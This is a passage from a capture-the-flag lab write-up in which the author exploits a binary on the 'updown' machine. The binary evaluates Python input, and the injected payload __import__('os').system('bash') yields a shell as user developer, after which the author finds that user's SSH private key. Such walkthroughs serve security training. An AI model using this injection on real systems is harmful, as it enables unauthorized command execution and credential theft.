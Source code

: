 It’s calling the python script from the application.

### Execution as developer

#### POC

Putting all that together, I just need to run the binary (which runs as developer) and give it the Python code to run:

```

www-data@updown:/home/developer/dev$ ./siteisup            
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
...[snip]...

```

It worked!

#### Shell

I’ll switch out `id` for `bash`:

```

www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)

```

It returns a shell as developer! To be more specific, the process is running under the user developer, but the group is still www-data. This means I can’t read `user.txt`, as it’s owned by root, and in the developer group:

```

developer@updown:/home/developer$ ls -l
total 8
drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
-rw-r----- 1 root      developer   33 Jan 14 21:08 user.txt

```

### SSH

Fortunately, in developer’s `.ssh` directory, there’s an RSA key-pair:

```

developer@updown:/home/developer/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub

```
